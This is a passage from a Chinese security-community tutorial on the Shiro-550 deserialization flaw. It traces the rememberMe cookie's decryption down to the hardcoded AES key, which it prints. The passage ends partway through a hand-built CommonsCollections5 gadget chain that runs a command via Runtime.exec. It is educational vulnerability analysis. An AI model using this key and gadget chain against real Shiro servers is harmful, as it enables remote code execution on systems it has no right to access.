# Shiro反序列化 逆向分析代码及漏洞利用-先知社区

> **来源**: https://xz.aliyun.com/news/19230  
> **文章ID**: 19230

---

## 环境搭建

jdk8u65  
Tomcat8  
shiro 1.2.4  
漏洞影响版本：Shiro <= 1.2.4

搭建环境这里比较费心思，慢慢来。

jdk8u65 和 tomcat8 的配置比较简单，直接下载，跟着安装就可以。tomcat8 下载这个包

Tomcat8 在 IDEA 中配置  
这里我们先 clone 一下 P神的项目：<https://github.com/phith0n/JavaThings/tree/master/shirodemo>

1. 用 IDEA 打开这个项目，去到 Settings 界面  
   如图配置，在 Add 的时候选择 Tomcat Server 这一选项。
2. 配置 Edit Configurations  
   添加url  
     
   login.jsp不加
3. 运行测试  
   右键 login.jsp，运行之后会有一堆爆红，然后是 404 的界面，这个时候我们点击 IDEA 自带的用浏览器打开前端界面即可，这样就可以访问成功了。

登录的 username 和 password 默认是 root 与 secret。

这里还有一点小问题，在用 Burpsuite 抓包的时候会抓不到 localhost 的包，这里我们只需要查看 ipconfig 下的 IPV4 地址，用那个 IP 地址去替换 localhost 就能够抓包了。

#### 漏洞原理

* 勾选 RememberMe 字段，登陆成功的话，返回包 set-Cookie 会有 rememberMe=deleteMe 字段，还会有 rememberMe 字段，之后的所有请求中 Cookie 都会有 rememberMe 字段，那么就可以利用这个 rememberMe 进行反序列化，从而 getshell。  
  PixPin\_2025-10-31\_21-48-26.png

Shiro1.2.4 及之前的版本中，AES 加密的密钥默认硬编码在代码里（Shiro-550），Shiro 1.2.4 以上版本官方移除了代码中的默认密钥，要求开发者自己设置，如果开发者没有设置，则默认动态生成，降低了固定密钥泄漏的风险。

分析Coockie  
我们还是从一个漏洞发现者的角度出发，而不是跟着 IDEA 打断点走一遍就可以的。  
首先在抓包的情况下，我们在拿到这一 Cookie 的时候，很明显能够看到这是经过某种加密的。因为我们平常的 Cookie 都是比较短的，而 shiro RememberMe 字段的 Cookie 太长了。

如此，我们先去分析 Cookie 的加密过程。  
我们在知晓 Shiro 的加密过程之后，可以人为构造恶意的 Cookie 参数，从而实现命令执行的目的

这很重要！并不是知道了怎么加密解密之后就可以 RCE 的！

#### 一、Shiro 的加密机制

1.1 加密全流程  
// AbstractRememberMeManager.java 核心加密流程  
public byte[] encrypt(byte[] plaintext) {  
 byte[] iv = generateInitializationVector(true); // 生成16字节IV  
 byte[] ciphertext = getCipherService().encrypt(plaintext, encryptionCipherKey, iv).getBytes();  
 return ByteSource.Util.concat(iv, ciphertext).getBytes(); // 拼接IV+密文  
}  
关键参数说明：

IV：16字节随机初始化向量（每次请求都不同）  
encryptionCipherKey：硬编码密钥 kPH+bIxk5D2deZiIxcaaaA==(Base64)  
加密模式：AES-128-CBC + PKCS5Padding  
输出结构：[16字节IV] + [加密后的序列化数据]  
1.2 内存中的字节布局  
+---------------------+-------------------------------+  
| IV(16字节) | 加密数据(长度可变) |  
| 0a 1b 2c 3d... | x0 x1 x2 x3... xn |  
+---------------------+-------------------------------+  
1.3 加密流程图示

### 二、反序列化触发剖析

#### **2.1 服务端解密调用栈**

```
// CookieRememberMeManager.getRememberedPrincipals()
public PrincipalCollection getRememberedPrincipals(SubjectContext subjectContext) {
    byte[] bytes = getRememberedSerializedIdentity(subjectContext); // 获取Cookie
    if (bytes != null) {
        return convertBytesToPrincipals(bytes); // 致命调用点
    }
}

// AbstractRememberMeManager.convertBytesToPrincipals()
protected PrincipalCollection convertBytesToPrincipals(byte[] bytes) {
    byte[] decrypted = decrypt(bytes);        // AES解密
    return deserialize(decrypted);            // 危险反序列化
}

// DefaultSerializer.deserialize()
public Object deserialize(byte[] serializedBytes) {
    return new ObjectInputStream(bytes).readObject(); // 漏洞根源
}
```

**致命缺陷：** 没有任何安全过滤直接调用 `readObject()`

##### 逆向分析解密过程

接下来我们看一看它具体的解密过程，这一步能让我梦更深入的理解原理和Java代码设计逻辑，各位师傅可以自己分析一下

要找 Cookie 的加密过程，直接在 IDEA 里面全局搜索 Cookie，去找 Shiro 包里的类。

最后我们找到相关的类是 `CookieRememberMeManager`，其中，在观察了一圈之后，将目光锁定到 `getRememberedSerializedIdentity()` 这个方法上。





接下来分析下这个代码



这里的前面，先判断是否为 HTTP 请求，如果是的话，获取 cookie 中 rememberMe 的值，然后判断是否是 deleteMe，不是则判断是否是符合 base64 的编码长度，然后再对其进行 base64 解码，将解码结果返回。

我们逆向上去，看一下谁调用了 `getRememberedSerializedIdentity()` 这个方法。

这段代码的核心功能一句话就能概括：**“把浏览器带来的 rememberMe Cookie 拿出来、解 Base64，还原成原始字节数组，供后面反序列化成用户身份。”**

这儿给出一些函数的相关含义，师傅后续可以自己点进去简单看一下，都是涉及javaEE开发的一些东西，后面不再做解释；

* `WebUtils.isHttp(...)`只处理 HTTP 请求，如果不是 Web 环境（例如单元测试）直接返回 null，rememberMe 作废。
* `isIdentityRemoved(...)`防止并发注销时再把身份“捡回来”；一旦标记过“已清除”就立即返回 null。
* `WebUtils.getHttpRequest/Response(...)`拿到标准的 `HttpServletRequest/Response`，准备读 Cookie。
* `getCookie().readValue(...)`从请求头里把 `rememberMe=xxx` 的值读出来；如果 Cookie 已被标记为“删除”也返回 null。
* `ensurePadding(base64)`有些浏览器会截掉末尾的 `=`，这里自动补齐，防止 `Base64.decode` 抛异常。
* `Base64.decode(...)`把 Base64 字符串还原成字节数组，后面会拿给 `ObjectInputStream` 做反序列化。

涉及相关类

`AbstractRememberMeManager` | 提供 rememberMe 的完整生命周期模板：生成 → 序列化 → 加密 → 写 Cookie；本段代码就是“读 Cookie → 解密 → 反序列化”里的第一步。  
`CookieRememberMeManager` | 具体实现类，把“rememberMe”信息存在浏览器的 Cookie 中；`getCookie()` 返回的就是它内部封装的 `SimpleCookie`。  
`SimpleCookie` | Shiro 对 Servlet Cookie 的轻量级包装，负责读写、域名、路径、HttpOnly、Secure 等属性。  
`WebUtils` | 工具包，从任意 `SubjectContext` 里快速掏出 `HttpServletRequest/Response`。  
`Base64` | Shiro 自己实现的 Base64 编解码工具，不依赖 JDK 8 的 `java.util.Base64`，兼容 1.6+。

1. 整体协作时序（rememberMe 登录）
2. 用户勾选“记住我”登录 →`CookieRememberMeManager.onSuccessfulLogin` → 序列化 `PrincipalCollection` → Base64 → 写 Cookie `rememberMe=xxx`
3. 用户下次打开浏览器 → 访问任何地址 → Shiro 过滤器触发 →`DefaultSecurityManager.createSubject` → 走到本段代码 → 拿到字节数组 → 下一步 `deserialize(...)` → 还原成 `PrincipalCollection` → 自动登录成功。

一句话总结`getRememberedSerializedIdentity()` 就是 rememberMe 的“入口海关”：**“验明正身（HTTP）→ 查黑名单（removed）→ 收护照（Cookie）→ 解封条（Base64）→ 把原始档案交给后面反序列化。”**



Principal --- 实体

找到了 `AbstractRememberMeManager` 这个接口的 `getRememberedPrincipals()` 方法。

`getRememberedPrincipals()` 方法的作用域为 **PrincipalCollection**，一般就是用于聚合多个 Realm 配置的集合。

这里 393，396 行；393 行 ———— 将 HTTP Requests 里面的 Cookie 拿出来，赋值给 bytes 数组；396 行将 bytes 数组的东西进行 `convertBytesToPrincipals()` 方法的调用，并将值赋给 principals 变量。

我们继续进入convertBytesToPrinciple()看一看；



在 `convertBytesToPrincipals()` 这个方法当中，很明确地做了两件事，一件是 **decrypt** 的解密，另一件是 **deserialize** 的反序列化。

让我们先进入到decrrypt()方法中一探究竟，他的详细加密过程是怎么样的



cipher：密码；  
第 487 行，先是获取了密钥服务，也就是实现 AOP 的实现类，再往后 489 行的 `decrypt()` 跟进去，发现它是一个接口。我们可以看一下它的参数名

第一个要加密的数组，第二个是一个 key，说明这是一个对称加密，我们重点去关注一下 key。

回到之前 `decrypt()` 方法的第 489 行，两个传参，第一个是 Cookie，第二个是 key，跟进传入的 getDecryptionCipherKey

最终发现这个东西是个常量，过程如下

先点进 `getDecryptionCipherKey` 这个参数，进去之后发现这是一个 btye[] 的方法，返回了 `decryptionCipherKey`。`decryptionCipherKey` 这里，我们找一找谁调用了它。



跟进去 `decryptionCipherKey()` 之后，查看谁调用了它，发现是 `setDecryptionCipherKey()` 方法，



那么显然这儿是个复制，我们就需要看谁调用了这个函数，并且传参进去了，（因为cipher就是密码）看谁调用了 `setDecryptionCipherKey()`





二次跟进，终于找到不一样的东西了；

![[语言/java/java安全/组件相关安全/shiro/img/PixPin\_2025-10-31\_23-12-54.png]]  


一整条寻找的思路如下图所示，这里我们发现 shiro 进行 Cookie 加密的 AES 算法的密钥是一个常量。



#### **2.2 Java 反序列化底层原理**

在之前 `convertBytesToPrincipals()` 这个方法的地方，点进去。是一个接口，再看一看接口里面的 `deserial` 的实现方法有哪些



点进 shiro 包的 `deserial()` 方法，这里面的 `deserial()` 方法调用了 `readObject()`，所以这里反序列化的地方是一个很好的入口类。

至此，Shiro 拿到 HTTP 包里的 Cookie 的解密过程已经梳理地很清楚了，我们再回头看一看那一段 Cookie 是如何产生的，也就是加密过程。

```
// ObjectInputStream 工作流程
public final Object readObject() 
    -> readObject0(false) 
        -> switch(tc): case TC_OBJECT 
            -> readOrdinaryObject(false)
                -> desc.initNonProxy()        // 解析类描述符
                -> obj = desc.newInstance()   // 反射创建实例
                -> desc.readObject(obj)       // 调用对象的readObject方法
```

**漏洞放大点：** Java 的反序列化会递归解析所有引用对象

##### 加密过程

这儿加密过程从onSuccessfulLogin()入手的



isRememberMe(token)检查是否开启rememberme，然后进入rememberIdentity(subject, token, info);后面的日志dedug显然不重要



前面首先是一个getIdentityToRemember(subject, authcInfo);得到相关认证的，我们要的是认证里面的东西，所以是rememberIdentity(subject, principals);里面



进来之后果然发现 convertPrincipalsToBytes，不出我们所料，接下来就和前面解密过程类似了

不再过多赘诉，后面发现加密算法是 AES 了，AES 是一种对称加密算法，继续往下跟，最后是找到加密 Key 用的是一个常量







### 三、 Shiro-550 漏洞利用（CC5 为例）

#### **3.1 完整手工 CC5 调用链**

```
// 手工构建CC5调用链（不含任何工具依赖）
public Object buildExploit() throws Exception {
    // 构造Transformers链
    Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, 
                new Object[]{"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, 
                new Object[]{null, new Object[0]}),
        new InvokerTransformer("exec", new Class[]{String.class}, 
                new Object[]{"calc.exe"})
    };
    
    // 包装链式执行
    Transformer chainedTransformer = new ChainedTransformer(transformers);
    
    // LazyMap触发机制
    Map lazyMap = LazyMap.decorate(new HashMap(), chainedTransformer);
    
    // TiedMapEntry作为入口
    TiedMapEntry entry = new TiedMapEntry(lazyMap, "dummy_key");
    
    // 最终触发点
    BadAttributeValueExpException exploit = new BadAttributeValueExpException(null);
    
